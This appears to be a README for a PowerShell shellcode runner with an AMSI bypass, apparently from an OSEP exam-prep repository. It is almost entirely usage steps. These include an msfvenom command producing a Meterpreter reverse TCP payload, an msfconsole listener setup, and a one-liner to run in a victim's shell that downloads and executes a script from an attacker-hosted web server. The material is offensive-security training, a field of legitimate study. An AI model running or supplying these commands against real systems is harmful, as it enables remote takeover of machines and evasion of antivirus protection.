 # Name
Powershell ShellCode Runner with AMSI Bypass

## Usage
```
Change Line 4 in runall.ps1 to Kali's IP

Host Python Webserver on Kali 

Generate payload & put in line 47 of shellcoderunner.ps1

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell

Start Msfconsole listener
    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"

In victim's cmd shell
    powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

```

## Source
https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI
